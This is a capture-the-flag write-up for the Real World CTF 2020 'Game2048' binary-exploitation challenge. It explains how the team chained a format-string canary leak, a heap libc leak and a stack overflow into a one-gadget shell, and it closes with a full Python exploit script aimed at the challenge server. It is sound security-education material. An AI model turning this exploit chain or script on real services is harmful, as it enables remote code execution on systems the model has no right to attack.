Real World CTF 2020 Game2048 Writeup
This is @Anciety from team r3kapig! We have achieved #7 in Real World CTF this year. The experience is quite nice, although we have completed the challenge in a hard way.. Let's get into the hard way 2048!
The Challenge
The challenge is a web server, it has functionalities below:
- register: register a new user, after registration, we will be directed to the 2048 page
- login: login into the 2048 page
- 2048: the game, at route "/2048/index.html", the 2048 is static but require login first. The authentication is encoded in cookie, in a form of "name; pass", for example, "admin; admin" for username "admin" and password "admin". So you can direct use the cookie to get in after registration.
- submit: a hidden functionality, one can submit a comment, it will be remembered and saved to the per-user storage. Once submitted, the next time you browse the submit page, the comment will be there by default. And there's a default string when you first time (haven't submitted any thing yet) browse the page.
The default submit page is:

And the implementation is based on libCoroutine, so it is a single thread but coroutine implementation. The program is written in C++, so is a little bit confusing to reverse, but once you got the overall structure, it can be a lot simpler.
First there's a routing initialization:

And the real implementation is in each object's process function, for example, there's a submit::process.
The intended solution is not that complex, let's speak about the intended solution first.
The bug resides in the submit implementation. A user's username and password is recorded in a table, and to access submit page, one needs to login (providing username and password to cookie). So, the submit is implemented by recording the submitted content in the user struct.

Also, when a user already has the comment, it will be freed first, and read the new one:

But note that, the reading part is implemented by AIO::read, and it can be blocked if you don't provide any input.
So, there's a double free now:
- free one, block the whole procedure at the read
- use another connection to do the free again, since when the read is blocked, the comment of such user is not set to zero (this happens afterwards), we get a legit double free
The libc given is of version 2.31, which has tcache support, now we can leverage that to complete the double free exploit.
This is the intended solution I suppose, since it is easy to write a exploit. Now let's get to the hard part.
Do That in A Hard Way
Since during the contest, we have totally ignored this double free, we found three more bugs in the program:
First, a stack overflow in http parse (to be more specific, add_get_param):

Since the strncpy size is actually calculated from the src string itself, they are just working like strcpy. However, the tmp1 and tmp2 are not actually used (Note that IDA has a problem decompiling try-catch block, it can skip parts of the function implicitly without any warning. But even we inspect disassembly, they are still not used). This might be a programming error (maybe the author intended to search on tmp1 and tmp2 instead of key and value).
But the program is protected by canary. So this stack overflow itself is not interesting.
Let's get to the second one, a string forgot to be null terminated. The bug is in parseHelper::render:

The fread just read the content of the template, but not null terminated. Also, the chunk is not cleared first. So if the chunk is full of user controlled text, we can concat interesting bytes after the read out template.
And here comes a bug out of a bug, because of this, we have a further format string vulnerability:

And the third one, the comment is not null terminated as well:

These three bugs by itself cannot do anything interesting (except the comment, it can print out heap address and libc address, but again, leaking is not enough to exploit anything). But combining them, we got our profit..
Combine The Bugs
Since we have a stack overflow, our thought goes to trigger it by leaking the canary out. And gladly, we have two leaking bugs, a format string leaking and a leak on heap. However, non of them can leak canary out.
Actually, if you think about it, the format string should leak canary out if the format string vulnerability is a normal one, but unfortunately it is not. Because the format string vulnerability is caused by concat garbage bytes after the template, we need to first control the garbage bytes. And the template is of 0x954 bytes (you can download the template by using http:/xxxxx:xxxx/./submit.html, is this a vulnerability as well? leaking the template? :P). Thus, when allocated out, the chunk is of 0x961 size, which we can only concat 4 bytes.

This means we can only do %1$p to %9$p, unfortunately, the canary is at number 13.
By debugging (more specifically, follow the chunk after the comment free until the malloc in render), I found that if I malloc a large chunk, it will be slowly cut into smaller one. This makes me thinking, if the chunk is large enough, maybe some magic could happen to do some merging stuff or things alike to make the allocated buffer larger?
And turns out I was right. By experiment for some time, I found that by using this setting, I can get a 0x971 chunk:
def leak_canary():
register()
register('fuck')
number = 0x3000 + 0x30 # v1 <- remote
payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote
submit(payload, user='fuck')
submit('a' * 0x100)
submit('a' * (0x10), user='fuck')
view_submit(user='fuck')This is not stable, but it works 1 out of 10 approximately. Anyway, we get a controllable format string for at least 8 bytes, this is nice, we can do much of a work. The next thing to solve is that, when I do this, I found that only the first byte is shown:
# This is not exactly what I got, but quite similar
bc\x00\x00\x00\x00\x00\x00\x00After some digging, I found that this is because of the vsnprintf size limit.

The leaked output is in the outbuffer, but the size limit of the out buffer is strlen(comment) + strlen(template). And, since the template already has a %s, so the comment is inserted, thus we only get one byte shown.
To cope with this, we found that default case (when no comment is available), the size is more than we need (thanks to @Umut for finding this):

Now, we get a working leaking! We can now leak canary, yay~
The complete leaking is like:
def leak_canary():
register()
register('fuck')
register('empty')
number = 0x3000 + 0x30 # v1 <- remote
payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote
submit(payload, user='fuck')
submit('a' * 0x100)
submit('a' * (0x10), user='fuck')
view_submit(user='empty')And libc leaking is quite illustrative, there's no libc address found on the stack, but fortunately we have another leaking bug, the comment leaking. By using the comment leaking, we get the libc address:
def leak_libc():
register()
for i in range(10):
submit('a'.ljust(0x1000, 'b'), False)
view_submit()
submit('a')
res = view_submit()
text_start = b'<textarea id="compose-textarea" class="form-control" style="height: 300px" name="word">'
idx = res.content.find(text_start) + len(text_start) + 1
content = res.content[idx:].strip(b' ').split(b'\n')[0]
libc_addr = u64(content.ljust(8, b'\x00'))
libc_base = libc_addr - 0x1ebb61
print(hex(libc_addr))
print(hex(libc_base))Note that the offset used to calculated libc_base is not stable.. I found at least three offsets, it can be inspected by last three digits. As for now I still remember 0x261 and 0xb61 possible. You can debug to find out the offset.
Now we have libc address and canary, and we have a stack overflow. Are we done? No!
The stack overflow is caused by strncpy, and it cannot contain any zeros. But there's zero byte in canary, what should we do?
For me, I used the reverse writing trick, where the first tmp1 stack overflow writes the canary without zero byte and the return address (one gadget) and then, the tmp2 is used to set the zero. This worked. But the problem is, let's take a look at the one gadgets we found (we cannot have a full rop beause of zero byte limit):
$ one_gadget libc.so.6
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
[r10] == NULL || r10 == NULL
[r12] == NULL || r12 == NULL
0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
[r10] == NULL || r10 == NULL
[rdx] == NULL || rdx == NULL
0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
[rsi] == NULL || rsi == NULL
[rdx] == NULL || rdx == NULLAnd the final one is usable:

However, when I actually try it, I found that:

Yeah, it uses the rbp, and require rbp-0x78 writable. And rbp is already over written.
Now we are stuck..
And at the time of contest, my part went here, next part was done by @Umut.
He magically found another one gadget the tool missed:

Since rdx is already 0, and rsi is 0 (actually, it is unstable, sometimes it is 0, sometimes r15 is 0, but in either case the gadget above is usable), we get it usable.
Finally we get the flag:

So, let's sum up!
Full Exploit
#!/usr/bin/env python3
import requests
from pwn import *
import sys
import urllib.parse
#url = 'http://localhost:39267'
url = 'http://54.176.255.241:33717'
submit_url = url + '/submit'
submit_page = url + '/submit.html'
register_url = url + '/register'
libc_base = 0x7f6b1b06c000
canary = 0xfd15c59a46b75400
one_gadget = 0xE6C84
#one_gadget = 0xe6e79
def submit(content, log=True, user='admin'):
data = {
'word': content
}
r = requests.post(submit_url, data=data, cookies={'name': user, 'pass': user})
if log:
print(r.text)
return r
def view_submit(log=True, user='admin'):
r = requests.get(submit_page, cookies={'name': user, 'pass': user})
if log:
print(r.text)
return r
def register(user='admin', log=False):
r = requests.get(register_url + '?name={user}&passwd={user}&re_passwd={user}'.format(user=user))
if log:
print(r.text)
def leak_libc():
register()
for i in range(10):
submit('a'.ljust(0x1000, 'b'), False)
view_submit()
submit('a')
res = view_submit()
text_start = b'<textarea id="compose-textarea" class="form-control" style="height: 300px" name="word">'
idx = res.content.find(text_start) + len(text_start) + 1
content = res.content[idx:].strip(b' ').split(b'\n')[0]
libc_addr = u64(content.ljust(8, b'\x00'))
libc_base = libc_addr - 0x1ebb61
print(hex(libc_addr))
print(hex(libc_base))
libc_base = libc_addr - 0x1ec261
print(hex(libc_base))
def leak_canary():
register()
register('fuck')
register('empty')
number = 0x3000 + 0x30 # v1 <- remote
payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote
submit(payload, user='fuck')
submit('a' * 0x100)
submit('a' * (0x10), user='fuck')
view_submit(user='empty')
def main():
rop = p64(one_gadget + libc_base)
payload_key = 'a' * 0x100 + 'b' * 0x100 + 'a' * 8 + 'a' + urllib.parse.quote(p64(canary)[1:]) + 'x' * 24 + urllib.parse.quote(rop)
payload_value = 'p' * 0x108
exp_url = url + '?' + payload_key + '=' + payload_value
r = requests.get(exp_url)
if __name__ == '__main__':
op = ''
if len(sys.argv) >= 2:
op = sys.argv[1]
if op == 'reg':
register()
elif op == 'canary':
leak_canary()
elif op == 'libc':
leak_libc()
else:
main()